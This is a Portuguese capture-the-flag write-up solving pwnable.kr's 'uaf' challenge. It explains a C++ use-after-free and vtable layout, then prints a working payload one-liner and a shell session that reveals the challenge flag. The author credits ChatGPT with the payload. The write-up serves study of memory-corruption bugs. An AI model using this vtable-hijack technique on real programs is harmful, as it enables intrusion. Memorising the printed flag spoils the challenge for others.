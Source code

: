 
# UAF
###### Resolvido por @Cubano2
> Este é um CTF sobre [Use After Free]  

## Sobre o Desafio  

Mommy, what is Use After Free bug?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)

## Solução

O exercício começa com a gente acessando essa máquina ``` ssh uaf@pwnable.kr -p2222```

E dentro do terminal da máquina temos esses arquivos:
```
uaf@pwnable:~$ ls
flag  uaf  uaf.cpp
```
Escrevendo ```cat uaf.cpp``` temos acesso a esse código, que além da vulnerabilidade UAF também apresenta conceitos de 'Programação Orientada à Objetos':


```c++
#include <fcntl.h>                                                                                                                           
#include <iostream>                                                                                                                          
#include <cstring>                                                                                                                           
#include <cstdlib>                                                                                                                           
#include <unistd.h>                                                                                                                          
using namespace std;                                                                                                                         
class Human{                                                                                                                                 
private:                                                                                                                                     
        virtual void give_shell(){                                                                                                           
                system("/bin/sh");                                                                                                           
        }                                                                                                                                    
protected:                                                                                                                                   
        int age;                                                                                                                             
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
 
class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};
 
class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};
 
int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);
 
        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;
 
                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }
 
        return 0;
} 
```

Ao analisar o código percebemos que ele tem 3 funções:

Opção 1 (use) → Chama introduce() de m e w.

Opção 2 (after) → Aloca memória dinâmica, de tamanho ```argv1```, para armazenar dados de um arquivo, que está contido em ```argv2```.

Opção 3 (free) → Libera os objetos m e w.

Descompilando o código no ghidra precisamos procurar duas funções importantes no código a ```introduce``` e a ```give_shell```, pois na lógica do código, ao trocarmos a informação que adicionamos na opção 1 ```use``` conseguimos fazer o ponteiro que não estaria alocado para a função ```introduce``` e faríamos ele apontar para a função do ```give shell```. Devo ressaltar que os objetos ```m``` e ```w``` estão em uma vtable, em C++, as funções virtuais são acessadas através da Virtual Table (vtable), que contém ponteiros para as funções da classe, nesse caso a classe sendo ```human```.

Variavel man
![image](https://github.com/user-attachments/assets/d3024548-9134-4a4b-a4f0-79c773755914)

Vtable de man
![image](https://github.com/user-attachments/assets/03428383-0981-41e8-94a9-3f577418a7ab)

Vtable de human
![image](https://github.com/user-attachments/assets/604f0582-36b3-4d67-91a5-dd38965ee463)


Quando um objeto chama ```introduce()```, na verdade, ele está acessando o endereço armazenado na vtable. Pedindo ajuda pro gpt analisar o Ghidra e achar a vtable certa do que queremos ele me deu essa explicação detalhada a seguir: 
```
 A vtable de Man começa no endereço 0x401560 e contém vários campos inicializados com 0h, que são apenas preenchimentos (possivelmente espaço reservado para futuras funções virtuais ou alinhamento de memória).

Depois disso, temos:

0x401568 → addr Man::typeinfo (metadados sobre a classe Man).
0x401570 → addr Human::give_shell → Isso significa que o ponteiro nesse deslocamento está apontando para a função give_shell, que pertence à classe Human.
0x401578 → addr Man::introduce → Aqui está o ponteiro para a função introduce() da classe Man. 

``` 
```
Endereço da vtable
A vtable de Man está de fato na região que começa em 0x401560. Isso é o bloco de memória que guarda os endereços das funções virtuais de Man.

Offset do método introduce()
O ponteiro para introduce() está em 0x401578, o que significa que essa função pode ser chamada quando um objeto de Man invoca um método virtual.

Offset do método give_shell()
O ponteiro para give_shell() está em 0x401570, o que sugere que o primeiro método virtual na vtable foi sobrescrito para apontar para Human::give_shell ao invés da implementação original.
```
Neste ponto, fica claro o que precisamos fazer: alocar um espaço de memória usando a opção after para simular um objeto Man real, mas com o ponteiro da vtable modificado. Dessa forma, ao usar a opção use, em vez de chamar ```introduce```, a função ```give_shell``` será executada.
![image](https://github.com/user-attachments/assets/94bc2949-ec58-44ae-9a6a-f4d42e156662)

Para conseguirmos executar uma chamada para ```give_shell``` precisamos fazer um cálculo simples do offset. Se a vtable começa em ```0x401570``` e ```introduce()``` está em ```0x401578```, podemos calcular o deslocamento:

```0x401578 − 0x401570 = 8```

Sendo assim temos 8 bytes de offset.

E com esses 8 bytes de offset conseguimos fazer nosso ponteiro apontar para a função do ```give_shell``` sem nenhum problema. Como esse 8 bytes "adiantam" nosso ponteiro, temos que ajustá-lo para começar 8 posições antes para aí o ponteiro apontar para a posição ```0x401570-8``` que no caso será ```40 1568```. E com isso alteranfo o ponteiro da vtable para ```0x401568``` fará com que, ao buscar ```introduce()```, o programa acabe chamando ```give_shell()```.
 
E por fim precisamos criar um payload com esse endereço de ponteiro para executarmos o código e adicionar essa informação com o uso da opção 2 (after). Pedi pro Gpt me entregar um payload, com todas essas informações que encontrei e ele me passou o seguinte código para executar no terminal do ssh:
``` python3 -c 'import sys; sys.stdout.buffer.write(b"\x68\x15\x40\x00" + b"\x00" * 4)' > /tmp/uaf-exploit ``` 
```
uaf@pwnable:~$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x68\x15\x40\x00" + b"\x00" * 4)' > /tmp/uaf-exploit
uaf@pwnable:~$ ./uaf 8 /tmp/uaf-exploit
1. use
2. after
3. free
->3
1. use
2. after
3. free
->2
your data is allocated
1. use
2. after
3. free
->2
your data is allocated
1. use
2. after
3. free
->1
$ cat flag
yay_f1ag_aft3r_pwning
$ 

```
![image](https://github.com/user-attachments/assets/d9e1f927-e39c-4ec7-a0d4-06c0457fd740)

> Assim, obtemos a flag `yay_f1ag_aft3r_pwning`
